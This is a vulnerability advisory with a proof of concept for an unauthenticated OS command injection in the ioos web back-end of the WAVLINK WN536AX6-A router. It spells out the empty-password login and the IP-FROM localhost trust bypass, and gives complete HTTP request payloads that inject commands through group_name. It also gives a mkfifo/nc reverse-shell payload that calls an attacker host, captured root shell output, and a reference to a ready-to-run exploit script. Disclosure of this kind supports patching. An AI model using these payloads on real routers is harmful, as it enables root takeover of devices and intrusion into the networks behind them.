



# WAVLINK WN536AX6-A — Unauthenticated (default-config) OS Command Injection → Root RCE in `ioos` (`openvpn_cli_group`)

| Item | Value |
|---|---|
| Vendor | WAVLINK (`winstar` / Meshlink) |
| Product / Model | WAVLINK WN536AX6-A (AX6000), Model `WN536AX6` |
| Firmware | `M36AX6_V260507_2.0.0-WO-d173724` (file `_WAVLINK_WN536AX6-A_M36AX6_V260507_2.0.0-WO-d173724.bin`) |
| OS / Arch | OpenWrt-based, ARM aarch64, musl libc |
| Vulnerable component | `/bin/ioos` — WAVLINK CSP web back-end (ELF 64-bit aarch64, stripped, no section headers), running as **root** |
| Vulnerability type | OS Command Injection (CWE-78) |
| Sink | `system()` @ `0x416b48` — `uci set ovpnclient.@groups[-1].group_name='<user>'` |
| Exploitation precondition | (a) loopback/SSRF reachability of `ioos:81`, **or** (b) any valid session token — which on a factory-default device is obtainable with an **empty password** |

## Overview

The WN536AX6-A web stack is a classic "front-end + back-end" architecture:

- `lighttpd` (`/usr/sbin/lighttpd`, ports **80/443**) serves the static UI and, via `mod_proxy` (`/etc/lighttpd/conf.d/30-proxy.conf`), forwards every `*.csp` request to `127.0.0.1:81`.
- `ioos` (`/bin/ioos`, started by `wmapd_run.sh` / `dhcp_restart.sh` as `ioos 81&`) is the WAVLINK CSP back-end. It binds to **`127.0.0.1:81`** (`inet_addr("127.0.0.1")` @ `0x4040a4`) and runs as **root**.

`ioos` dispatches a request according to the `fname`/`opt` query parameters through a `{name, handler}` table (`pro_list` @ `0x43c4c8`). The handler for `fname=sys` & `opt=openvpn_cli_group` (`sub_416760`) adds an OpenVPN client group. It reads the user-controlled `group_name` parameter and embeds it verbatim into a single-quoted `uci` command passed to `system()`:







```
snprintf(buf, "..", "uci set ovpnclient.@groups[-1].group_name='%s'", group_name);   // 0x416b30
system(buf);                                                                         // 0x416b48
```

A `group_name` value of `a';CMD;'` breaks out of the single-quoted string and injects an arbitrary OS command that executes with **root** privileges.

Authentication. The dispatcher (`cgi_protocol_handler`) sets the per-connection login flag (`con->login` @ `+0x64`, store at `0x423cf8`) whenever the `IP-FROM` request header equals `127.0.0.1` — a "localhost trust" check that bypasses token validation entirely (vector **a**). Going through the `lighttpd` front door, `IP-FROM` is overwritten with the real client IP, so token validation applies — but the factory-default device ships in `first_login` state and the login endpoint `fname=system&opt=login&function=set` accepts an **empty password**, returning a valid token (vector **b**, fully remote on a default-config device).

## Vulnerability Details

**Tainted parameter → sink (instruction-level):**

```
sub_416760 (openvpn_cli_group handler, auth-gated by ldr w20,[x19,#0x64];cmp #1 @ 0x4167c4):
  0x416840  get_param(con, "group_name")          ; x25 = attacker-controlled group_name
  ...
  0x416b30  snprintf(buf, 0x4000,
                     "uci set ovpnclient.@groups[-1].group_name='%s'", group_name)
  0x416b48  system(buf)                            ; root-owned shell, single-quote context
  0x416b50  system("uci commit ovpnclient")
```

No validation/sanitisation exists between the parameter getter and the sink (no `check_special_character` call on this path). Because the value is placed inside single quotes, the break-out payload is `a';CMD;'`, yielding:

```
uci set ovpnclient.@groups[-1].group_name='a';CMD;''
```

`sh -c` then runs `uci set …='a'`, then `CMD`, then the harmless empty `''`.

**Required request shape (ioos parser quirks, measured against the running firmware):**

1. The URI must contain a `?` (query string) or `ioos` rejects with `error3` before dispatch.
2. `ioos`' URL decoder does **not** treat `+` as space — spaces must be sent as `%20` (`quote_via=quote`).
3. `&` / `=` inside the payload must be `%26` / `%3D` so they are not parsed as parameter delimiters.
4. `ioos`' header parser is **order-sensitive**: the `IP-FROM` header is only honoured when it appears **before** `Content-Type` in the request.

**Auth-bypass primitive (vector a).** In `cgi_protocol_handler` (`0x423cb4`-`0x423cf8`):

```
ip = con->ip_from;            // taken from the IP-FROM header (con_check_read_finish @ 0x422e84)
if (ip == NULL)            -> con->login = 1;     // 0x423cb8
if (!strcmp(ip,"127.0.0.1")) -> con->login = 1;   // 0x423cd0  <-- localhost trust
else if (verify_token(ip, token) == 0) -> con->login = 1;
```

Any caller that can deliver a request to `ioos:81` with `IP-FROM: 127.0.0.1` (loopback on the device, or any SSRF that can reach `127.0.0.1:81`) is treated as authenticated, with no token at all.

**Sibling (same pattern).** `opt=wireguard_cli_group` (`sub_41a1d8`) builds the analogous `uci set wgclient.@groups[-1].group_name='%s'` (`snprintf` @ `0x41a5a8`, `system` @ `0x41a5c0`) and is exploitable identically.

## Proof of Concept

Start a listener on the attacker host (e.g. `192.168.1.5`): `ncat -lvnp 4444`.

**Vector b — through the lighttpd front door (default-config device, empty password):**

```http
POST /index.csp?token=x HTTP/1.1
Host: 192.168.1.6
Content-Type: application/x-www-form-urlencoded
Content-Length: <auto>

fname=system&opt=login&function=set
```
```json
{ "opt": "login", "fname": "system", "function": "set", "token": "C76C5D4BE9B0A82585B8F8CB6F727C33", "init_status": 0, "error": 0 }
```

```http
POST /index.csp?token=C76C5D4BE9B0A82585B8F8CB6F727C33 HTTP/1.1
Host: 192.168.1.6
Content-Type: application/x-www-form-urlencoded
Content-Length: <auto>

fname=sys&opt=openvpn_cli_group&function=set&action=add&group_id=998&group_name=a%27%3Bid%3E/tmp/p_ow%3B%27
```
```json
{ "opt": "openvpn_cli_group", "fname": "sys", "function": "set", "success": 1, "error": 0 }
```
Result on the device: `# cat /tmp/p_ow` → `uid=0(root) gid=0(root) groups=0(root)`.

**Vector a — loopback / SSRF to `ioos:81` (no token, no login),** note `IP-FROM` precedes `Content-Type`:

```http
POST /index.csp?token=x HTTP/1.1
Host: 127.0.0.1:81
IP-FROM: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: <auto>

fname=sys&opt=openvpn_cli_group&function=set&action=add&group_id=999&group_name=a%27%3Bid%3E/tmp/p_byp%3B%27
```
```json
{ "opt": "openvpn_cli_group", "fname": "sys", "function": "set", "success": 1, "error": 0 }
```
`# cat /tmp/p_byp` → `uid=0(root) gid=0(root) groups=0(root)`.

**Root reverse shell** (busybox `nc` is the minimal build with no `-e`; `mkfifo` pipe trick):

```
group_name = a';setsid sh -c "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc <LHOST> <LPORT>>/tmp/f" </dev/null >/dev/null 2>&1 ;'
```

Captured on the attacker's `ncat`:

```
/bin/sh: can't access tty; job control turned off
BusyBox v1.33.2 built-in shell (ash)
/ # id
uid=0(root) gid=0(root) groups=0(root)
/ # uname -a
Linux ... 6.8.0-136-generic ... aarch64 GNU/Linux
/ # ls -l /etc/shadow
-rw------- 1 root root ... /etc/shadow
```

A ready-to-run Python EXP is provided alongside this report (`wavlink_wn536ax6_ioos_rce.py`) supporting both `--vector login` and `--vector bypass`, with `--cmd` and `--shell` modes.

## Impact

Full **root** remote code execution on the router: total device compromise, persistent backdooring, credential/config theft (`/etc/config/winstar`, `/etc/shadow`), pivot into the LAN, and full control of the mesh/Wi-Fi configuration. The impact is aggravated by the empty default password on factory-reset devices (`first_login`), which makes vector **b** effectively unauthenticated from the network, and by the loopback `IP-FROM` trust (vector **a**), which turns any SSRF/local weak primitive into root RCE.

## Reproduction Result

Dynamically verified against the firmware emulated with `qemu-aarch64-static` + `chroot` on an x86 analysis VM (lighttpd on :80/:443 front-end, `ioos` on 127.0.0.1:81 back-end). Arbitrary commands were executed as `uid=0(root)` via both vectors (proof files written on the emulated device), and an interactive root shell was obtained over a reverse connection. The `system()`-spawned reverse shell is stable on real hardware (`setsid` + stdio detach); under qemu user-mode the backgrounded grandchild can be reaped when `ioos`' `system()` returns, an emulation artifact only — the injected command is identical and proven (confirmed by `strace` of the `execve("/bin/sh",["sh","-c","uci set ovpnclient.@groups[-1].group_name='a';…"])` call chain).
